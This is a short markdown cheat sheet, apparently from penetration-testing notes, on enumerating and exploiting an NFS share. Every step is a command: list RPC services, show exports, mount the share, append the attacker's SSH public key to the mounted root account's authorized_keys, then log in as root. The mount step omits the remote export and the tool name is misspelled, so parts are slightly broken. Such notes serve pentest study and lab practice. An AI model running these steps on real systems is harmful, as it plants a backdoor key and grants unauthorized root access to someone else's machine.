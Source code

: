 # NFS Enumeration
- Network file system

## Exploiting NFS

1. Use rcpinfo to determine the services running
`rcpinfo -p 192.168.1.1`

2. Use showmount to which directories you have access to mount.
`showmount -e 192.168.1.1`


3. Create and mount the remote directory
```sh
mkdir /mnt/nfs
mount /mnt/nfs
```

4. We notice that SSH is open, so we'll exploit that service. '
```sh
ssh-keygen
cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
```

5. At this point we can ssh into the system as the root user.
```sh
ssh root@192.168.1.1
```
